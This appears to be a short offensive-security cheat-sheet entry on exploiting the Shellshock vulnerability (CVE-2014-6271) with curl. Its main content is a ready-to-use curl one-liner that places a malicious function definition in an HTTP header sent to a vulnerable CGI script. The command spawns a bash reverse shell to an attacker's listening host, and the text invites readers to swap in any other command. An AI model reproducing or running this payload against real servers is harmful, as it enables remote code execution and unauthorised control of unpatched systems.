### 1. Exploit shellshock via curl, use -k switch to force curl to bypass any SSL warnings. Replace the bash command with anything.
```
curl http://192.168.123.123/path/to/cgi- bin/name_of_vuln_cgi -H "custom:() { ignored; }; /bin/bash -i >& /dev/tcp/[LHOST]/[LPORT] 0>&1 "
```
**- shellshock,curl**
#### References:

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
__________
